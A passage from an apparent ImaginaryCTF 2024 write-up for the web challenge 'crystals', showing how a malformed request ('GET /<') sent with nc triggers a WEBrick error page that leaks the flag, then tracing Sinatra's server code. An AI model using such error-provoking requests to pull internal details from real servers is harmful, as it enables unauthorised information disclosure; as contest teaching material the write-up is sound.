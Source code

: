 The server will try to parse the path. However, since this path `/<` is not a valid path, it should causes an error.

```shell
┌[siunam♥Mercury]-(~/ctf/ImaginaryCTF-2024/Web/crystals)-[2024.07.22|15:15:59(HKT)]
└> nc crystals.chal.imaginaryctf.org 80                                                             
GET /< HTTP/1.1
Host: crystals.chal.imaginaryctf.org

HTTP/1.1 400 Bad Request
Server: nginx
Date: Mon, 22 Jul 2024 07:16:06 GMT
Content-Type: text/html; charset=ISO-8859-1
Content-Length: 316
Connection: keep-alive

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0//EN">
<HTML>
  <HEAD><TITLE>Bad Request</TITLE></HEAD>
  <BODY>
    <H1>Bad Request</H1>
    bad URI `/&lt;'.
    <HR>
    <ADDRESS>
     WEBrick/1.8.1 (Ruby/3.0.2/2021-07-07) at
     ictf{seems_like_you_broke_it_pretty_bad_76a87694}:4567
    </ADDRESS>
  </BODY>
</HTML>
```

Nice! We got the flag!

But wait, why? What caused this?

In the `<ADDRESS>` element, we can see `WEBrick/1.8.1`.

Huh, **WEBrick**?

> WEBrick is an HTTP server toolkit that can be configured as an HTTPS server, a proxy server, and a virtual-host server. - [https://github.com/ruby/webrick?tab=readme-ov-file#webrick](https://github.com/ruby/webrick?tab=readme-ov-file#webrick)

So, WEBrick is an HTTP server written in Ruby.

Does Sinatra host the HTTP server with WEBrick?

In Sinatra's [`lib/sinatra/base.rb` at line 1602 - 1621](https://github.com/sinatra/sinatra/blob/main/lib/sinatra/base.rb#L1602-L1621), we can see that Sinatra uses Puma, Falcon, or WEBrick to host the HTTP server.

```ruby
# Run the Sinatra app as a self-hosted server using
# Puma, Falcon, or WEBrick (in that order). If given a block, will call
# with the constructed handler once we have taken the stage.
def run!(options = {}, &block)
  unless defined?(Rackup::Handler)
    rackup_warning = <<~MISSING_RACKUP
      Sinatra could not start, the "rackup" gem was not found!

      Add it to your bundle with:

          bundle add rackup

      or install it with:

          gem install rackup

```